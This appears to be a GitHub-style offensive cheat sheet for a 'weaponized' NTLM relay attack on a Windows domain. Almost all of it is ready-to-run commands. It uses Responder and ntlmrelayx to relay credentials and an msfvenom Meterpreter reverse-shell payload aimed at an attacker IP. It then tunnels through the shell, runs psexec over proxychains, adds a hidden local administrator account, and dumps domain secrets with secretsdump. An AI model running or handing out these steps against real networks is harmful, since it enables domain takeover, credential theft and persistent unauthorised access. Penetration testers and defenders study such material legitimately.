 # WEAPONIZED NTLM RELAY

## Tools: ntlmrelayx.py, responder

#### 1) Turn off SMB in Responder configuration as ntlmrelayx.py will be handling SMB

    sudo sed -i 's/SMB = On/SMB = Off/' /etc/responder/Responder.conf

#### 2) Start responder

     sudo python3 responder.py -I INTERFACE

#### 3) 

    ntlmrelayx.py -t ldap://IP -smb2support --escalate-user USER

## TIP: Works only when SMB signing is DISABLED (Use nmap for SMB privileges on the network)

#### 4) Required packages: krb5-user, cifs-utils

#### 5) 

    sc stop netlogon

#### 6) 

    sc stop lanmanserver and sc config lanmanserver start= disabled

#### 7) 

    sc stop lanmanworkstation and sc config lanmanworkstation start= disabled

#### 8) 

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f exe > shell.exe

#### 9) 

    ntlmrelayx.py -t smb://DC -smb2support -socks

#### 10) 

    portfwd add -R -L 0.0.0.0 -l 445 -p 445 (Meterpreter session)

#### Wait 1-3 minutes for tunnel

#### 11) Add "socks4 127.0.0.1 1080" to proxychains configuration file /etc/proxychains.conf

#### 12) 

    proxychains psexec.py -no-pass DOMAIN/USERNAME@IP_ADDRESS

#### 13) 

    net user jimmy PASSWORD /add

#### 14) 

    net localgroup Administrators /add jimmy

#### Alternate tool: SMBExec.py

#### 15) 

    secretsdump.py 'DOMAIN/jimmy:PASSWORD:@IP_ADDRESS

#### 16) DOMAIN PWNED!
